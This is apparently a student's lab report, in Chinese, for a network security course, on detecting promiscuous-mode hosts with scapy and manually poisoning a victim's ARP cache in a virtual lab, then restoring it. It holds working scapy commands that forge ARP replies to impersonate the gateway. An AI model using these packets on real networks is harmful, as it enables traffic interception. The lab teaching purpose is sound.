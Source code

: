 # 实验四 网络监听

## 一、实验环境

- 网络拓扑

- 攻击者主机（kali attacker)
  - 10.211.55.5
  - 00:1c:42:8c:bc:96/eth0
- 靶机(kali victim)
  - 10.211.55.6
  - 00:1c:42:1d:6c:8f/eth0
- 网关(Debian GNU Linux 10.10 ARM64)
  - 10.211.55.8
  - 00:1c:42:00:00:18

<img src="img/top2.jpeg" alt="top2" style="zoom:50%;" />

## 二、实验内容

- [x] 检测局域网中的异常终端
- [x] 手工单步“毒化”目标主机的ARP缓存

## 三、实验步骤

### 1.在攻击者主机上提前安装好scapy

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

![安装scapy](./img/安装scapy.jpg)

### 2.检测局域网中的异常终端

```
# 在靶机上检查网卡的「混杂模式」是否启用
ip link show eth0
```

![检查混杂模式](img/检查混杂模式.jpg)

```
# 在攻击者主机上开启 scapy，不提升权限有些操作无法进行
sudo scapy
```

![开启scapy](img/开启scapy.jpg)

```bash
在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("10.211.55.6")
```

![scapy执行](img/scapy执行.jpg)

```bash
# 回到靶机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```

![出现promisc](img/出现promisc.jpg)

```bash
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("10.211.55.6")
```

<img src="./img/又一次scapy执行.jpeg" alt="scapy又一次执行" style="zoom:33%;" />

```bash
# 在靶机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```

![关闭混杂模式](img/关闭混杂模式.jpg)

查阅资料，`promiscping` 命令会发送 `ARP who-has` 请求。

> - 混杂模式 接收所有经过网卡的数据包，包括不是发给本机的包，即不验证MAC地址
> - 普通模式 网卡只接收发给本机的包

可以看出在混杂模式下，靶机才能收到这个数据包。

在靶机上开启`Wireshark`抓包，也验证了这个问题。发送的包并没有指定目的主机的MAC地址，所以普通模式下发送不会成功

### 3.手工单步“毒化”目标主机的ARP缓存

- 获取当前局域网关的mac地址

  ```bash
  # 构造一个 ARP 请求
  arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="10.211.55.8")
  
  # 查看构造好的 ARP 请求报文详情
  arpbroadcast.show()
  ```

  ![获取mac地址](img/获取mac地址.jpg)

  ```bash
  # 发送这个 ARP 广播请求
  recved = srp(arpbroadcast, timeout=2)
  
  # 网关 MAC 地址如下
  gw_mac = recved[0][0][1].hwsrc
  gw_mac
  ```

  ![拿到网关mac](img/拿到网关mac.jpg)

- 伪造网关的ARP响应包

  ```bash
  # 攻击者主机准备发送给靶机 10.211.55.6
  # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  
  # 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
  arpspoofed = Ether()/ARP(op=2, psrc="10.211.55.8", pdst="10.211.55.6", hwdst="00:1c:42:1d:6c:8f")
  
  # 发送上述伪造的 ARP 响应数据包到靶机
  sendp(arpspoofed)
  ```

  ![forge_arp](img/forge_arp.jpg)

  此时在靶机上查看 `ARP` 缓存会发现网关的 MAC 地址**已被「替换」为攻击者主机的 MAC 地址**

  ```bash
  ip neigh
  ```

  ![forge_arp](img/forge_arp.jpg)

- 恢复靶机的ARP缓存记录（回到攻击者主机上的scapy交互式终端继续执行命令）

  ```bash
  ## 伪装网关给靶机发送 ARP 响应
  restorepkt1 = Ether()/ARP(op=2, psrc="10.211.55.8", hwsrc="00:1c:42:00:00:18", pdst="10.211.55.6", hwdst="00:1c:42:1d:6c:8f")
  sendp(restorepkt1, count=100, inter=0.2)
  ```

  ![recovery](img/recovery.jpg)

  此时在靶机上准备“刷新”网关 `ARP` 记录。

  ```bash
  ## 在靶机上尝试 ping 网关
  ping 10.211.55.8
  ## 静候几秒 ARP 缓存刷新成功，退出 ping
  ## 查看靶机上 ARP 缓存，已恢复正常的网关 ARP 记录
  ip neigh
  ```

  ![victim_recovery](img/victim_recovery.jpg)

## 四、参考资料

[网络安全课件](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)

